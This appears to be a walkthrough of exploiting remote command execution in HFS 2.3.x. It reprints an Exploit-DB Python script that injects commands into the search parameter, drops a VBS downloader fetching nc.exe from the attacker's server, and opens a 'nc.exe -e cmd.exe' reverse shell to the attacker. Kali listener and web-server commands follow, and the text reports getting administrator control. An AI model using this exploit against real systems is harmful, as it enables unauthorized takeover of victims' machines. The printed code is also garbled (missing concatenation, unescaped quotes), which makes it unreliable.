

# HFS 2.3.x remote command execution 

<https://www.exploit-db.com/exploits/39161>

after decode the whole exploit, we can see

~~~~python
#!/usr/bin/python
...
import urllib2
import sys

try:
	def script_create():
		urllib2.urlopen("http://" sys.argv[1] ":" sys.argv[2] "/?search={. " save ".}")

	def execute_script():
		urllib2.urlopen("http://" sys.argv[1] ":" sys.argv[2] "/?search={. " exe ".}")

	def nc_run():
		urllib2.urlopen("http://" sys.argv[1] ":" sys.argv[2] "/?search={. " exe1 ".}")

	ip_addr = "192.168.1.13" #local IP address
	local_port = "443" # Local Port number
	
    vbs = "C:\Users\Public\script.vbs|dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://" ip_addr "/nc.exe", False
xHttp.Send

with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\Public\nc.exe", 2 '//overwrite
end with"

	save= "save|"   vbs
	vbs2 = "cscript.exe C:\Users\Public\script.vbs"
	exe= "exec|" vbs2
	vbs3 = "C:\Users\Public\nc.exe -e cmd.exe " ip_addr " " local_port
	exe1= "exec|" vbs3
    
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
~~~~

## Background Knowledge

**netcat** is a simple unix utility which reads and writes data across network connections, using TCP or UDP protocol. It has both Windows and Linux version.

- It is a versatile command which can assist you in monitoring, testing, and sending data across network connections.

- Netcat is not restricted to sending TCP and UDP packets. It also can listen on a port for connections and packets.  


# Prepare for the attack

let's launch the attack from famous Kali. Before exploit the vulnerability of HFS, we need to have some simple set up on Kali.

## setup simple http server with python

~~~~bash
#> python3 -m http.server 80
~~~~


## prepare nc.exe for being downloaded from victim machine

copy nc.exe from /usr/share/windows-binaries/ to the same location where we start http server, so when exploit is running on the victim machine, the nc.exe will be downloaded from here.

```bash
#> cp /usr/share/windows-binaries/nc.exe .
```


## run netcat on Kali to listen for connection from victim machine

~~~~bash
#> nc -lvnp 443
~~~~

# start exploit

## run the python script for HFS RCE

~~~~bash
#> python ./39161.py
~~~~

now we get the reverse connection from windows



It look like the HFS is running as admin, so we get the control as administrator after get our command executed remotely, pretty simple!

let's take a look at what happened on the victim windows. Under the C:\Users\Public\, we see nc.exe and script just generated by the exploit.

